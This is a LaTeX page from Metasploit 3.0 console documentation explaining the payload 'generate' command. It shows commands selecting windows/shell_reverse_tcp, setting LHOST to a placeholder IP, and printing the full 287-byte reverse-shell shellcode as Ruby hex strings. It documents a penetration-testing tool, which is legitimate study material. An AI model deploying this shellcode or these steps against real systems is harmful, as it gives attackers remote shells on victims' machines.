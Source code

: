 \documentclass{report}
\begin{document}
\par
The console interface supports generating different forms of a payload.  This
is a new feature in Metasploit 3.0.  To generate payloads, first select a
payload through the \texttt{use} command.

\begin{verbatim}
msf > use windows/shell_reverse_tcp
msf payload(shell_reverse_tcp) > generate -h
Usage: generate [options]

Generates a payload.

OPTIONS:

    -b <opt>  The list of characters to avoid: '\x00\xff'
    -e <opt>  The name of the encoder module to use.
    -h        Help banner.
    -o <opt>  A comma separated list of options in VAR=VAL format.
    -s <opt>  NOP sled length.
    -t <opt>  The output type: ruby, perl, c, or raw.

msf payload(shell_reverse_tcp) >  
\end{verbatim}

\par
Using the options supported by the \texttt{generate} command, different
formats of a payload can be generated.  Some payloads will require options
which can be specified through the \texttt{-o} parameter.  Additionally, a
format to convey the generated payload can be specified through the
\texttt{-t} parameter.  

\begin{verbatim}
msf payload(shell_reverse_tcp) > set LHOST 1.2.3.4
LHOST => 1.2.3.4
msf payload(shell_reverse_tcp) > generate -t ruby
# windows/shell_reverse_tcp - 287 bytes
# http://www.metasploit.com
# EXITFUNC=seh, LPORT=4444, LHOST=1.2.3.4
"\xfc\x6a\xeb\x4d\xe8\xf9\xff\xff\xff\x60\x8b\x6c\x24\x24" +
"\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b\x4f\x18\x8b\x5f" +
"\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99\xac\x84" +
"\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x28" +
"\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c" +
"\x01\xeb\x03\x2c\x8b\x89\x6c\x24\x1c\x61\xc3\x31\xdb\x64" +
"\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x40\x08\x5e" +
"\x68\x8e\x4e\x0e\xec\x50\xff\xd6\x66\x53\x66\x68\x33\x32" +
"\x68\x77\x73\x32\x5f\x54\xff\xd0\x68\xcb\xed\xfc\x3b\x50" +
"\xff\xd6\x5f\x89\xe5\x66\x81\xed\x08\x02\x55\x6a\x02\xff" +
"\xd0\x68\xd9\x09\xf5\xad\x57\xff\xd6\x53\x53\x53\x53\x43" +
"\x53\x43\x53\xff\xd0\x68\x01\x02\x03\x04\x66\x68\x11\x5c" +
"\x66\x53\x89\xe1\x95\x68\xec\xf9\xaa\x60\x57\xff\xd6\x6a" +
"\x10\x51\x55\xff\xd0\x66\x6a\x64\x66\x68\x63\x6d\x6a\x50" +
"\x59\x29\xcc\x89\xe7\x6a\x44\x89\xe2\x31\xc0\xf3\xaa\x95" +
"\x89\xfd\xfe\x42\x2d\xfe\x42\x2c\x8d\x7a\x38\xab\xab\xab" +
"\x68\x72\xfe\xb3\x16\xff\x75\x28\xff\xd6\x5b\x57\x52\x51" +
"\x51\x51\x6a\x01\x51\x51\x55\x51\xff\xd0\x68\xad\xd9\x05" +
"\xce\x53\xff\xd6\x6a\xff\xff\x37\xff\xd0\x68\xe7\x79\xc6" +
"\x79\xff\x75\x04\xff\xd6\xff\x77\xfc\xff\xd0\x68\xf0\x8a" +
"\x04\x5f\x53\xff\xd6\xff\xd0"
msf payload(shell_reverse_tcp) >  
\end{verbatim}
\end{document}
